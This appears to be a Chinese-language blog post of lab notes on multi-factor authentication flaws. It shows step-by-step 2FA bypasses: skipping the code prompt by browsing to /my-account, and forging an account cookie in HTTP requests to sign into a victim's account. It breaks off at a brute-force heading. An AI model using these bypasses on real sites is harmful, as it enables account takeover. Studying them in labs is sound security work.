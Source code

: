 ```yaml
--- 
layout: post
title:  Vulerabilities in multi-factor authentication(多因素身份验证中的漏洞)
subtitle:
date: 2020-09-23
author: D
header-img:
catalog: true
tags: [multi-factor, authentication]
---
```


# 1. 2FA simple bypass(绕过两因素验证)
例子: 你已經有一個網站的有效用戶名和密碼,但是你卻沒有用戶的`2FA`驗證碼.<br>
Your credentials: `wiener:peter`<br>
Victim's credentials: `carlos:montoya`<br>
- 1.登錄你自己的帳號.你的2FA驗證碼會發送到你的email.點擊<kbd>Email client</kbd>按鈕查看你的郵件.
- 2.驗證完成，登錄後，去到你的"My account"頁面且記錄下該網址.
- 3.登出你的帳號
- 4.使用受害者的憑證登錄.
- 5.當提示要求輸入驗證碼的時候，手工修改URL導航到 `/my-account`.該驗證就會被繞過了.

# 2. 2FA broken logic(有缺陷的两因素验证逻辑) 
有時候2FA出現邏輯漏洞,當一個用戶完成了第一步登錄,網頁並沒有充分的去驗證是否是同一個用戶進行的第二步.
比如:用戶登錄的第一步如下:
```
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```
在進行登錄的第二步之前,用戶被分配一個與帳號相關的cookie如下:
```
HTTP/1.1 200 OK
Set-Cookie: account=carlos
```
然後進行登錄的第二步:
```
GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```
當提交驗證碼,請求使用cookie決定訪問哪一個賬戶:
```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456
```
 如果是這種情況，攻擊者可以登錄他們自己的帳號但是呢修改cookiel里面`account`的值,
 可以把它修改爲任意值當提交驗證碼的時候:
 ```
 POST /login-steps/second HTTP/1.1
 Host: vulerable-website.com
 Cookie: account=victim-user
 ...
 verification-code=123456
 ```
 這樣子是非常危險的，如果攻擊者可以暴力破解驗證碼,那麼他們可以登錄任何帳號僅僅需要
 知道受害者的用戶名,而不用知道受害者的密碼.

# 3. 2FA bypass using a brute-force attack(暴力破解2FA验证码)
